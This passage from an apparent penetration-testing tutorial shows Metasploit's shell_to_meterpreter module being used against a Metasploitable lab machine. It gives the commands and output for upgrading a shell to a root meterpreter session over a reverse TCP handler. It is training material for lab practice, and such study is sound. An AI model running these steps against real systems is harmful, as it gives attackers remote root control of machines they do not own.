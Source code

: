 Let’s use the first one:

```
msf6 auxiliary(scanner/vnc/vnc_login) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > show options
```

```
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ‐‐‐‐     ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```

Now we have to specify the options. Remember the IDs of the sessions? Let’s try to upgrade the session ID 4:

```
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 4
SESSION => 4
```

Now exploit:

```
msf6 post(multi/manage/shell_to_meterpreter) > exploit
```

```
[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.74.128:4433 
[*] Sending stage (984904 bytes) to 192.168.74.129
[*] Meterpreter session 6 opened (192.168.74.128:4433 -> 192.168.74.129:46735) at 2022-02-07 10:08:39 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
```

This exploit might not work properly the first time. Keep on trying again until it works. Now let’s look at the sessions again:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions
```

```
Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  –  –  –  –  –                   – ------- –                                                                       – --------
  2         shell cmd/unix                                                                                           0.0.0.0:0 -> 192.168.74.129:6200 (192.168.74.129)
  4         shell cmd/unix                                                                                           192.168.74.128:4444 -> 192.168.74.129:33209 (192.168.74.129)
  6         meterpreter x86/linux  root @ metasploitable (uid=0, gid=0, euid=0, egid=0) @ metasploitable.localdo...  192.168.74.128:4433 -> 192.168.74.129:46735 (192.168.74.129)
```
